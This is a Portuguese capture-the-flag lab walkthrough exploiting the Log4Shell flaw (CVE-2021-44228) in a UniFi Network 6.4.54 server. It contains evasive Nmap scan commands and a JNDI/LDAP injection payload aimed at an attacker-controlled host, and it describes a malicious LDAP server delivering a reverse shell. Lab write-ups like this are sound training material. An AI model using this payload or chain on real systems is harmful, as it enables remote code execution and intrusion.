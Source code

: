 # Exploração da Vulnerabilidade Log4j

## Task 1: Identificação das Portas Abertas

Rodando o comando do Nmap:

```shell
sudo nmap -p- -T 5 -g 53 -D RND:5 -Pn --disable-arp-ping 10.129.201.80 -vv
```

Saída do Nmap:

```shell
PORT     STATE SERVICE       REASON
22/tcp   open  ssh           syn-ack ttl 63
6789/tcp open  ibm-db2-admin syn-ack ttl 63
8080/tcp open  http-proxy    syn-ack ttl 63
8443/tcp open  https-alt     syn-ack ttl 63
8843/tcp open  unknown       syn-ack ttl 63
8880/tcp open  cddbp-alt     syn-ack ttl 63
```

As quatro primeiras portas abertas são: **22, 6789, 8080 e 8443**.

## Task 2: Identificação do Software na Porta 8443

Rodando o Nmap com detecção de serviços:

```shell
sudo nmap -sVC -p 8443 -g 53 -D RND:5 10.129.201.80
```

Saída relevante:

```shell
PORT     STATE SERVICE         VERSION
8443/tcp open  ssl/nagios-nsca Nagios NSCA
| http-title: UniFi Network
|_Requested resource was /manage/account/login?redirect=%2Fmanage
```

O título do software é **UniFi Network**.

## Task 3: Identificação da Versão do Software

Acessando a página web via HTTPS (`https://10.129.201.80:8443`), encontramos uma tela de login que exibe a versão do software: **6.4.54**.

## Task 4: Identificação do CVE da Vulnerabilidade

Pesquisando o nome do serviço e sua versão, encontramos a vulnerabilidade associada: **CVE-2021-44228**.

## Task 5: Protocolo JNDI utilizado na Injeção

A pesquisa revelou que o protocolo utilizado é **LDAP**. Para explorar essa falha, podemos enviar um payload via BurpSuite:

```shell
${jndi:ldap://{Tun0 IP Address}/teste}
```

### Explicação do Payload:

1. **`${...}`**: Interpolação de strings no Log4j2.
2. **`jndi:`**: Indica uma requisição JNDI.
3. **`ldap://`**: Protocolo LDAP para busca de recursos.
4. **`{Tun0 IP Address}`**: IP da máquina atacante.
5. **`/teste`**: Caminho no servidor LDAP malicioso.

Quando processado, o Log4j2 faz uma requisição LDAP ao servidor atacante, que pode fornecer um payload malicioso, resultando em **execução remota de código (RCE)**.

### Exemplo de Exploração:

Se configurarmos um servidor LDAP (com **ysoserial**, por exemplo), podemos entregar um payload que executa uma **reverse shell** na máquina alvo.

## Task 6: Ferramenta para Interceptar o Tráfego

Podemos usar o **Tcpdump** para capturar pacotes de rede e verificar se o payload foi enviado e processado corretamente.

### Como Utilizar o Tcpdump:

6. **Monitorar a Requisição LDAP**:
    
    ```shell
    sudo tcpdump -i tun0 port 389
    ```
    
    Isso captura pacotes LDAP na interface **tun0**, usada em VPNs.
    
7. **Captura de Pacotes para Análise**:
    
    - Verificar se a aplicação fez a requisição ao servidor malicioso.
    - Analisar a resposta enviada pelo servidor atacante.

## Task 7: Porta Utilizada para Interceptação

A porta usada para interceptar o tráfego é **389**, correspondente ao protocolo **LDAP**.